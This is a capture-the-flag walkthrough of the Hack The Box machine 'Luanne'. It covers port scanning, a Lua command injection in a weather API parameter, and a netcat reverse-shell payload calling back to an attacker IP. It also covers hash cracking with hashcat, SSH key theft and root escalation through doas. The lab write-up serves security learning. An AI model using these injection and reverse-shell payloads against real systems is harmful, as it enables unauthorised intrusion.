



# [Luanne](https://app.hackthebox.com/machines/luanne)

```bash
nmap -p- --min-rate 10000 10.10.10.218
```


After detecting open ports, (22,80,9001), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,9001 10.10.10.218
```


robots.txt


We see '/weather' endpoint, it looks like API, let's brute-force for this endpoint.

Directory brute-force for port (80).
```bash
gobuster dir -u http://10.10.10.218/weather -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```


We find API here.



Let's look at what language is used by making error on API.


From  here, we see that **Lua** language is used.
I looked that all malicious exploits related to **Lua** from [Gtfobins](https://gtfobins.github.io/gtfobins/lua/#sudo)

And I inject such malicious payload `')+os.execute('id')+--` to see Command Injection works or not.
```bash
http://10.10.10.218/weather/forecast?city=%27)+os.execute(%27id%27)+--
```


Let's add reverse shell into injection part .So inject reverse shell as like this `') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1337 >/tmp/f') --`

```bash
curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1337 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s
```





Let's make interactive shell, but it doesn't work.

I find password in '.htpasswd' file.


Let's crack this password via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```


webapi_user: iamthebest


While , we use `netstat` tool, we see that port (3001) is used.


As I grab user credentials from .htpasswd file, I enumerate that port 3001, maybe is serviced by this credentials, let's try to read something with using these creds.

```bash
curl -s http://127.0.0.1:3001/~r.michaels/ -u webapi_user:iamthebest
```


Here's what we see some stuff about id_rsa which we can join by using this.
Let's read content of **id_rsa file**.

```bash
curl -s http://127.0.0.1:3001/~r.michaels/id_rsa -u webapi_user:iamthebest
```


Let's upload this our local machine, and try to login. We changed privilege and use to authenticate.
```bash
chmod 600 id_rsa
ssh -i id_rsa r.michaels@10.10.10.218
```


user.txt


I try to enumerate via `sudo -l` command but it doesn't work, as because it is BSD machine , I need to look for '**doas.conf**' file.


Even though this file says, your user can be root privileged, there is no such thing.


By the way , **YOU NEED TO KNOW BELOW EQUIVALENT.**

*sudo  ===   doas*


There is file called 'devel_backup-2020-09-16.tar.gz.enc
', let's try to unencrypt and unzip to see some info.


I find interesting .gpg files which help me to unencrypt backup file.




Let's use this.

```bash
netpgp --decrypt --output=/tmp/dr4ks.tar.gz backups/devel_backup-2020-09-16.tar.gz.enc

tar zxvf dr4ks.tar.gz  #extract
```


We find interesting '.**htpasswd**' file , again let's crack this via `hashcat` tool.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```


We find password like this 'littlebear'

Let's use this password to be root user via `doas` command.

root.txt

